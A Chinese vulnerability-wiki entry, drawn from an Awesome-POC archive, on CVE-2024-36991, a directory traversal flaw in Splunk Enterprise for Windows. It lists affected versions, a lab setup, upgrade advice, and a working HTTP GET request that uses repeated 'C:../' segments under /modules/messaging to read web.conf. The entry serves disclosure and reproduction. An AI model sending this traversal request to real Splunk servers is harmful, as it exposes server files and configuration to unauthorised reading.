

# Splunk Enterprise Windows 平台 messaging 目录遍历漏洞 CVE-2024-36991

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Splunk Enterprise Windows
- 文献类型：Windows应用目录遍历复现
- 版本、权限及部署边界：Windows平台，9.2<9.2.2/9.1<9.1.5/9.0<9.0.10；示例9.2.1 Web8000路径
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 标题/正文明确仅Windows却归系统安全/Linux，属于确定性分类错误
2. frontmatter version只第一分支，正文三分支应完整结构化；修复建议可直接引用三已列边界
3. 给无Cookie请求但应明确认证前提和版本获取8089可能另需认证；返回证据仅截图未查看
4. Splunk官方公告/检测规则与研究来源齐全，技术信息较完整；可保留为Splunk主记录
5. 局部图片路径无外部可用性保证

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://advisory.splunk.com/advisories/SVD-2024-0711>
- 原文参考链接（未重新核验）：<https://research.splunk.com/application/e7c2b064-524e-4d65-8002-efce808567aa>
- 原文参考链接（未重新核验）：<https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads>
- 原文参考链接（未重新核验）：<https://www.splunk.com/en_us/download/previous-releases.html>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

Splunk Enterprise 是一款强大的数据分析软件，它允许用户从各种来源收集、索引和搜索机器生成的数据。2024 年 7 月，官方发布安全通告，披露 CVE-2024-36991 Splunk Enterprise Windows 平台 /modules/messaging 目录遍历漏洞。漏洞仅影响 Windows 平台上的 Splunk Enterprise。

参考链接：

- https://advisory.splunk.com/advisories/SVD-2024-0711
- https://research.splunk.com/application/e7c2b064-524e-4d65-8002-efce808567aa
- https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads

## 漏洞影响

```
9.2.0 <= Splunk Enterprise < 9.2.2
9.1.0 <= Splunk Enterprise < 9.1.5
9.0.0 <= Splunk Enterprise < 9.0.10
```

## 环境搭建

[官网](https://www.splunk.com/en_us/download/previous-releases.html) 下载安装 Splunk Enterprise 9.2.1，搭建完成后，访问 `your-ip:8000`，即可看到 Splunk Enterprise 的登录页面。


## 漏洞复现

 Splunk Enterprise 中， `8000` 端口 和 `8089` 端口 分别用于 Web UI 和 后台管理 API。可以通过 `8089` 端口查看版本号：


通过 `8000` 端口读取配置文件 `$SPLUNK_HOME/etc/system/default/web.conf`：

```
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/default/web.conf HTTP/1.1
Host: 10.10.11.61:8000
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```



## 漏洞修复

官方已发布安全更新，建议升级至最新版本。


---

> 来源：Threekiii/Awesome-POC
